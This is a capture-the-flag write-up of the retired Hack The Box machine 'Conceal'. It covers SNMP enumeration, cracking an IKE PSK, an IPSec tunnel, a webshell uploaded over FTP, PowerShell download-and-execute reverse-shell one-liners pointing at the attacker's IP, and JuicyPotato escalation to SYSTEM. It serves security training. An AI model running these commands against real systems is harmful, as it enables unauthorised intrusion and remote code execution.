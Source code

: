 # Conceal

This is the write-up for the box Conceal that got retired at the 18th May 2019.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.116    coneal.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/conceal.nmap 10.10.10.116
```

```markdown
Nmap scan report for 10.10.10.116
Host is up (0.048s latency).
All 1000 scanned ports on 10.10.10.116 are filtered
```

There is no port open so we need to do different scans to get any information. 

Full TCP port scan for all 65535 ports:
```markdown
nmap -p- -o nmap/conceal-alltcp.nmap 10.10.10.116
```

UDP scan:
```markdown
nmap -sU -o nmap/conceal-1000udp.nmap 10.10.10.116
```

```markdown
Not shown: 999 open|filtered ports
PORT    STATE SERVICE
500/udp open  isakmp
```

### Checking SNMP

Before we get into the results of the scans we can check for SNMP strings manually. We can use **snmpwalk** or a more verbose tool called **snmp-check**:
```markdown
snmp-check 10.10.10.116
```

We get a lot of interesting results that I put in a file in this folder called **conceal-snmp_check.txt** but here is the interesting stuff:
- IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
- Windows Version 6.3 (Build 15063)
- User: Destitute
- Network Interfaces with IKEv2, PPTP, L2TP
- Listening TCP ports: 
  - 21 - FTP 
  - 80 - HTTP 
  - 135 - Microsoft RPC
  - 139 - NetBIOS
  - 445 - SMB
- Listening UDP ports: 
  - 123 - NTP
  - 161 - SNMP
  - 500 - IPSec / IKE
  - 4500 - IPSec NAT Traversal
  - 5050 - Unknown
  - 5353 - Multicast DNS
  - 5355 - LLMNR
  - 137 - NetBIOS Name Service
  - 138 - NetBIOS Datagram Service
  - 1900 - Microsoft SSDP (UPnP)
  - 53226 - Unknown
  - 53227 - Unknown


## Checking IPSec

The fact that the UDP port 500 is open and we get this IKE VPN password PSK means we need to look further into **IPSec VPN**.
First we try to crack the password manually or search for it on hashes.org and it says:
> Dudecake1!

We can test if we get a response back from the IKE service:
```markdown
ike-scan -M 10.10.10.116
```

```markdown
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=befc472fa43aa6a0)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
```

We need to focus on the **SA (Security Association)** that is:
- Encrypted in 3DES
- Hashed in SHA1
- Authentication with a PSK that we have
- Life Duration of it is 0x00007080 = 28800 seconds = 8 hours

Now that we have all the important information we need a IPSec Tunneling program called **strongswan**.

### Configuring strongswan

In the `manpage` for `ipsec.secrets` we find an example how to configure an IPSec tunnel:
```markdown
# /etc/ipsec.secrets - strongSwan IPsec secrets file
192.168.0.1 %any : PSK "v+NkxY9LLZvwj4qCC2o/gGrWDF2d21jL"
```

So we add this line to the **/etc/ipsec.secrets** file:
```markdown
10.10.10.116 %any : PSK "Dudecake1!"
```

Whenever we make an IPSec connection through stongswan to the box it uses this PSK.

Next we need to configure **/etc/ipsec.conf** and the help for that can be found in `man ipsec.conf`.
Everything we configure here is with information we already have:
```markdown
conn Conceal
        type=transport
        keyexchange=ikev1
        left=10.10.14.10
        leftprotoport=tcp
        right=10.10.10.116
        rightprotoport=tcp
        authby=psk
        esp=3des-sha1
        ike=3des-sha1-modp1024
        ikelifetime=8h
        fragmentation=yes
        auto=start
```

Starting the IPSec VPN connection:
```markdown
ipsec start --nofork
```

We are now connected and can verify that by doing a port scan on port 445 from which we know that it should be open:
```markdown
nmap -sT -p 445 -Pn 10.10.10.116
```

```markdown
PORT    STATE SERVICE
445/tcp open  microsoft-ds
```

Now this port says open and we can enumerate the running services we know from the SNMP scan.

## Checking FTP and HTTP (Port 21 and 80)

Anonymous login on FTP works with no files in there but we can upload files to it.

If we browse to the web page we see the IIS default page and after some enumerating paths we find **/uploads** where it shows the files we uploaded to FTP.
As **ASPX** does not work but **ASP** does we can upload an .asp file to get a webshell and have command execution.

We want to execute a reverse shell. I will take _Invoke-PowerShellTcp.ps1 from Nishang_ that I just call _revshell.ps1_ and it will listen on my IP and port 9001:
```markdown
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/revshell.ps1')"
```

We now started a reverse shell session with the user _Destitute_ and can read the first flag.

## Privilege Escalation

If we look at the privileges of the user _Destitute_ with `whoami /all` we can see the following:
```markdown
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The **SeImpersonatePrivilege** privilege is enabled and this is what we want to abuse with the local privilege escalation tool **JuicyPotato**.

When uploading the JuicyPotato.exe file over FTP we need to set the FTP mode to `binary` and then `put JuicyPotato.exe`.
We create a .bat file with the same command as we invoked into the webshell to spawn a new reverse shell with higher privileges:
```bat
REM This is rootshell.bat

powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/rootshell.ps1')"
```

After uploading the file we can execute JuicyPotato.exe:
```markdown
.\JuicyPotato.exe -t * -p C:\Users\destitute\Documents\revshell.bat -l 9002 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'
```

Normally it tries the CLSID of BITS but that won't escalate our privileges so we take the **CLSID of wuauserv** which is _{e60687f7-01a1-40aa-86ac-db1cbf673334}_.
A list of CLSID can be found here: [JuicyPotato CLSID list](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/).

When the program successfully runs, our second reverse shell spawns a shell with the user _NT Authority\SYSTEM_ and we rooted the box!
